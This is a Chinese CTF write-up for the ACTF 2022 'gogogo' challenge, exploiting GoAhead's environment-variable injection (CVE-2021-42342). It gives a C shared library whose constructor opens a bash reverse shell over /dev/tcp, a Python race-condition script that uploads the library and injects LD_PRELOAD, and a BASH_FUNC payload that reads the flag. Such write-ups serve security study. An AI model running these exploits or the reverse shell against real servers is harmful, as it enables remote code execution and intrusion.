

##  2022ACTF

复现环境：https://github.com/team-s2/ACTF-2022/tree/main/web

自己服务器docker搭建一下即可

##  gogogo

考点：gohead的环境变量注入

先看看之前p神分析的过程：https://www.leavesongs.com/PENETRATION/goahead-en-injection-cve-2021-42342.html

其实，我看完，总结下思路分析：

1. 通过上传文件的形式可以注入环境变量
2. 我们就可以利用`LD_PRELOAD`来劫持动态链接库
3. 需要上传so文件，我们通过上传文件的形式产生临时文件
4. 但是因为文件上传后，文件描述符都直接删除了
5. 我们就通过增加文件的大小，添加脏字符，然后增加上传的时间，然后条件竞争就可以利用

###  解法一

就是通过条件竞争的方式

hack.c

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void aaanb(void)
{
    unsetenv("LD_PRELOAD");
    system("touch /tmp/success");
    system("/bin/bash -c 'bash -i >& /dev/tcp/xxx/30005 0>&1'");
}

```

生成so文件

```c
gcc hack.c -fPIC -s -shared -o hack.so
```

```python
import requests, random
from concurrent import futures
from requests_toolbelt import MultipartEncoder
hack_so = open('hack.so','rb').read()

def upload(url):
    m = MultipartEncoder(
        fields = {
            'file':('1.txt', hack_so,'application/octet-stream')
        }
    )
    r = requests.post(
        url = url,
        data=m,
        headers={'Content-Type': m.content_type}
    )

def include(url):
    m = MultipartEncoder(
        fields = {
            'LD_PRELOAD': '/proc/self/fd/7',
        }
    )
    r = requests.post(
        url = url,
        data=m,
        headers={'Content-Type': m.content_type}
    )


def race(method):
    url = 'http://xxx:12346/cgi-bin/hello'
    if method == 'include':
        include(url)
    else:
        upload(url)

def main():
    task = ['upload','include'] * 1000
    random.shuffle(task) #
    with futures.ThreadPoolExecutor(max_workers=5) as executor:
        results = list(executor.map(race, task))

if __name__ == "__main__":
    main()


```

###  解法2

利用也是p神的环境变量注入：

https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html

```python
import requests

payload = {
    "BASH_FUNC_env%%":(None,"() { cat /flag; exit; }"),
}
proxies = {
    "http": 'http://127.0.0.1:8080',
    "https": 'http://127.0.0.1:8080'
}
r = requests.post("http://42.193.170.176:12346/cgi-bin/hello",files=payload,proxies=proxies)
print(r.text)
```

加代理是方便burp抓包



## poorui